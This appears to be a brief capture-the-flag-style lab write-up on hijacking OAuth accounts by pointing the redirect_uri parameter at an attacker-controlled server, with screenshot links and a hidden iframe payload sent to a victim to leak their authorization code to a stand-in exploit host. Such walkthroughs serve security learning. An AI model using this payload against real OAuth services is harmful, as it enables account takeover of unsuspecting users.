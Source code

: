 \# OAuth account hijacking via redirect\_uri



We set our server as the value of the redirect\_uri parameter.



!\[\[/Screenshots/1-OAuth-account-hijacking-via-redirect\_uri.png]]



In the logs of our server we obtained, as a PoC:



!\[\[/Screenshots/2-OAuth-account-hijacking-via-redirect\_uri.png]]



With the same logic créate a script that we will send to the victim



```js

<iframe src="https://<OAUTH-IP>/auth?client\_id=<YOUR-CLIENT-ID>f\&redirect\_uri=<EXPLOIT-SV>\&response\_type=code\&scope=openid%20profile%20email"hidden="hidden"></iframe>

```



We obtain the victim's code and submit it to /oauth-callback.



!\[\[/Screenshots/3-OAuth-account-hijacking-via-redirect\_uri.png]]



!\[\[/Screenshots/4-OAuth-account-hijacking-via-redirect\_uri.png]]


